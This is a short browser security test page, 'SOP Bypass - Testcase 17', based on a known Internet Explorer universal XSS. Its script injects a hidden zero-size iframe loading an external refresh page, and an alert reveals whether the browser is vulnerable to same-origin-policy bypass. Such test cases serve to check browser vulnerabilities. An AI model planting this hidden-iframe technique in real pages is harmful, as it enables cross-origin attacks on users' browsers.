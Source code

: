 ```yaml
---
layout: default
title: SOP Bypass - Testcase 17
permalink: /sop/new/17
---
```


Based upon Mario Heiderich's IE UXSS

<script>
function myfunction() {
    x = document.createElement("IFRAME");
    x.setAttribute("width", "0");
    x.setAttribute("height", "0");
    x.setAttribute("src", "https://web.archive.org/web/20180831134345/http://innerht.ml/refresh.html");
    document.body.appendChild(x);
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">

**Note:**
If page displays an alert box displaying innerht.ml, your browser is vulnerable to SOP bypass.
